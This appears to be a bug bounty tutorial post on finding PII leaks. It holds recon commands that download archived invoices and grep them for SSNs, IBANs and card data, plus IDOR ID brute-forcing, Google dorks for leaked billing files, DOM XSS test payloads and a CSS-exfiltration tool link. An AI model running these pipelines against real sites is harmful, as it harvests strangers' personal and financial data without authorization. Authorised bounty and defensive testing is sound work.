 ## 🔍 Full Blueprint:
>How to Hunt & Reproduce PII/Data Leaks Like a Pro
Whether you're chasing juicy bounties or performing red team recon, this post gives you a battle-tested strategy to detect PII leaks, exposed invoices, weak APIs, DOM XSS, and more — step-by-step.

### ✅ 1. 🕵️‍♂️ Mass PII Exposure (Billing, Address, Payments, Personal Info)
🎯 Targeted Directories & Endpoints:
```
Pages: /invoices/, /billing/, /account/, /payment/, /orders/, /checkout/
APIs: /api/user, /api/invoice, /api/payment-method, /api/download
```
#### A. IDORs on User-Specific Endpoints
Many websites assign numeric IDs to invoices, statements, etc.

```
GET /api/invoice?id=1001
GET /account/billing/1002
```
#### 🧠 How to Exploit:

Use Burp Suite > Repeater or Intruder

Brute force IDs

If responses return other users’ data = 🔥 critical PII leak

💡 No auth required = jackpot.
💥 If JWT/auth token doesn’t block you, even better.

#### B. Exposed PDF/CSV/ZIP via Archive URLs
```
gau http://target.com | grep -Ei "\.pdf|\.csv|\.zip" > files.txt
cat files.txt | xargs -I % curl -s "%" | \
grep -Ei "email|iban|address|card|amount|name|ssn"
```
> 🧠 Why it works: Many companies don’t protect old downloadable invoices. These files often live in wp-content, uploads, or /files/.

#### C. Google Dorks for Leaked Docs
Use these to passively recon leaked billing data:

```
site:target.com inurl:invoice filetype:pdf
site:target.com inurl:billing filetype:csv
site:target.com confidential filetype:zip
```
💡 You’ll often find:

Invoices with names/addresses
Finance reports
Exported databases
HR documents

### ✅ 2. Account Takeover via DOM XSS & CSS Injection
🔎 DOM XSS Hunting Tools:
`XSStrike` `Burp Suite DOM Invader`

Manual inspection of JS sinks: `location.hash`, `document.URL`, etc.

Test Payloads:
```
"><script>alert(document.domain)</script>
"><img src=x onerror=alert('XSS')>
```
Inject into:

```
https://target.com/#/account?user="><script>...
https://target.com/?next="><img...
```
🧥 CSS Injection → Data Exfil
If user-controllable styles exist (themes, names, etc):
Inject malicious CSS into profile names, signatures, etc.

Use: `https://github.com/mwrlabs/css-exfil`

### ✅ 3. Full Recon Strategy for Sensitive Leak Mapping
Step-by-step pipeline:
```
subfinder -d target.com -o subs.txt
cat subs.txt | httpx -paths /billing,/account,/api/user,/invoice -mc 200 -title > live_targets.txt
```
Then brute for endpoints:

```
ffuf -u https://site.com/FUZZ -w endpoints.txt -mc 200 -o hits.json
```
✅ Custom Wordlist:
Use `SecLists/Fuzzing/endpoints-fuzz.txt` + your own:

```
invoice, contract, download, report, users, info, details, payroll, dashboard
```
### ✅ 4. Payload Automation (Burp/Intruder)
Automate fuzzing across IDs like invoice_id, user_id
Payloads: 1000–9999, or UUIDs if applicable

Grep Match:

`"email"`
`"amount"`
`"iban"`
`"zip"`
`"ssn"`

📌 Why it’s critical: Even one exposed invoice PDF with valid info = bounty-worthy.

✅ Bonus: What to Report
High-Impact Findings Include:

🔓 Exposed `/api/invoice?id=1001` showing full billing info

📂 Public ZIPs or PDFs with 100+ users

🧨 DOM XSS in `billing.js` or user dashboards

🗃️ Firebase storage leaking `/users.json`

📝 Leaked CSVs in `/uploads/private/`

🛠️ Tool Spotlight: PII Hunter by @cybersecplayground
Quickly automate all of the above with:

```
chmod +x pii_hunter.sh
./pii_hunter.sh http://target.com
```
It performs:

🕸️ Crawling archived URLs with gau

🔍 Filtering files: `.pdf`, `.csv`, `.zip`, `.xls`

📂 Downloading leaked files

🧬 Grepping for: `email`, `ssn`, `iban`, `card`, `phone`, `zip`

🔥 Combine with `httpx`, `ffuf`, and `curl` for a fully weaponized recon toolchain!

🔐 Stay persistent. Find what’s overlooked. Report ethically.

📣 Follow @[cybersecplayground](https://t.me/cybersecplayground) for daily bug bounty recon tactics, tools, and real payloads!

💬 If this helped, like, comment, and share with your hacker circle.

#bugbounty #osint #recon #pii #dataleak #infosec #cybersecurity #xss #idor #cybersecplayground #pentest #hackingtools #reconnaissance #cssinject #exfiltration
